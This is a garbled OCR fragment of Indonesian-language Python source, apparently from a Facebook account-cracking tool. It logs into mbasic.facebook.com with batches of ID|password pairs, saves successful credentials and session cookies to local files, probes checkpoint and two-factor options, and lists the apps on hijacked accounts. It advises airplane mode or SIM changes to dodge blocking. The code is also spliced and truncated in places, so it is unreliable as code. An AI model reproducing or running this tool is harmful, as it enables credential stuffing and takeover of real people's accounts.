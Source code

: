 style='green')     cetak(nel(statusok1, title='OK'))     ok+=1     break    elif 'ya' in taplikasi:     coki=po.cookies.get_dict()     kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])     open('/sdcard/4MBF-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')     user=idf     infoakun = ""     session = requests.Session()     cek2 = session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies=coki,headers=headapploop+=1#--------------------[ CHECK-OPSI-CHEKPOINT ]-------------------#def ceker(idf,pw): global cp ua = 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.128 Safari/537.36 FBMF/HUAWEI;FBBD/HUAWEI;FBPN/com.facebook.services;FBDV/EVR-L29;FBSV/10;FBLR/0;FBBK/1;FBCA/arm64-v8a:;]' head = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"} ses = requests.Session() try:  hi = ses.get('https://mbasic.facebook.com')  ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':idf,'pass':pw,'login':'submit'}, headers=head, allow_redirects=True).text,'html.parser')  jo = ho.find('form')  data = {}  lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']  for anj in jo('input'):   if anj.get('name') in lion:    data.update({anj.get('name'):anj.get('value')})  kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=head).text,'html.parser')  print('\r%s++++ %s|%s ----> CP %s'%(b,idf,pw,x))  open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')  cp+=1  opsi = kent.find_all('option')  if len(opsi)==0:   print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))  else:   for opsii in opsi:    print('\r%s---> %s%s'%(kk,opsii.text,x)) except Exception as c:  print('\r%s++++ %s|%s ----> CP %s'%(b,idf,pw,x))  print('\r%s---> Tidak Dapat Mengecek Opsi (Cek Login Di Lite/Mbasic)%s'%(u,x))  open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')  cp+=1#--------------------------[ CHECK-OPSI-CHEKPOINT-2 ]----------------#def cek_opsi(): c = len(akun) hu = 'Terdapat %s Akun Untuk Dicek\nSebelum Mulai, Mode Pesawat/Ubah Kartu Sim Terlebih Dahulu'%(c) cetak(nel(hu, title='CEK OPSI')) input(x+'['+h+'â€¢'+x+'] Mulai') cek = '# PROSES CEK OPSI DIMULAI' sol().print(mark(cek, style='green')) love = 0 for kes in akun:  try:   try:    id,pw = kes.split('|')[0],kes.split('|')[1]   except IndexError:    time.sleep(2)    print('\r%s++++ %s ----> Error %s'%(b,kes,x))    print('\r%s---> Pemisah Tidak Didukung Untuk Program Ini%s'%(u,x))    continue   bi = random.choice([u,k,kk,b,h,hh])   print('\r%s---> %s/%s ---> { %s }%s'%(bi,love,len(akun),id,x), end=' ');sys.stdout.flush()   ua = 'Mozilla/5.0 (Linux; Android 11; TECNO KD8) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4755.101 Mobile Safari/537.36'   ses = requests.Session()   header = {"Host": "mbasic.facebook.com","cache-control": "sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=header).text,'html.parser')     print('\r%s++++ %s|%s ----> CP %s'%(b,id,pw,x))     opsi = kent.find_all('option')     if len(opsi)==0:      print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))     else:      for opsii in opsi:       print('\r%s---> %s%s'%(kk,opsii.text,x))    except:     print('\r%s++++ %s|%s ----> CP %s'%(b,id,pw,x))     print('\r%s---> Tidak Dapat Mengecek Opsi%s'%(u,x))   elif "c_user" in ses.cookies.get_dict().keys():    print('\r%s++++ %s|%s ----> OK %s'%(h,id,pw,x))   else:    print('\r%s++++ %s|%s ----> CP %s'%(x,id,pw,x))   love+=1  except requests.exceptions.ConnectionError:   print('')   li = '# KONEKSI INTERNET BERMASALAH, PERIKSA & COBA LAGI'   sol().print(mark(li, style='red'))   exit() dah = '# DONE' sol().print(mark(dah, style='green')) exit()#----------------------[ CEK-APLIKASI ]---------------------#def cek_apk(session,cookie): w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":cookie}).text sop = BeautifulSoup(w,"html.parser") x = sop.find("form",method="post") game = [i.text for i in x.find_all("h3")] if len(game)==0:  print(f"\n {N}[{M}!{N}] opshh tidak ada aplikasi aktif di akun ini.") else:  for i in range(len(game)):   print(" %s%s. %s%s"%(H,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N)) w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":cookie}).text sop = BeautifulSoup(w,"html.parser") x = sop.find("form",method="post") game = [i.text for i in x.find_all("h3")] if len(game)==0:  print(f"\n {N}[{M}!{N}] opshh tidak ada aplikasi kadaluarsa di akun ini.") else:  for i in range(len(game)):   print(" %s%s. %s%s"%(K,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N)) #-----------------------[ SYSTEM-CONTROL ]--------------------#if name=='main': try:os.system('git pull') except:pass try:os.mkdir('OK') except:pass try:os.mkdir('CP') except:pass try:os.mkdir('DUMP') except:pass try:os.system('touch .prox.txt') except:pass login()